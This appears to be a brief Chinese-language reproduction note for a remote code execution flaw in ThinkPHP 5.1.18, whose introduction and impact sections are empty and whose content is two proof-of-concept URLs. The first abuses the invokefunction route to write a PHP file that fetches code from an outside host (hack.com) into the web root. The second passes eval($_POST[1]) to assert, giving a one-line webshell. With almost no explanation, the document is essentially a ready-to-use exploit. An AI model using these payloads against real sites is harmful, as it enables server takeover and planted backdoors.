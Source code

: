 Thinkphp 5.1.18
===============

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

### 1、常规poc

    http://www.xxxxx.com/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][0]=index11.php&vars[1][1]=<?=file_put_contents('index_bak2.php',file_get_contents('https://www.hack.com/xxx.js'));?>

### 2、所有目录都无写入权限,base64函数被拦截

     http://www.xxxx.com/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][0]=eval($_POST[1]
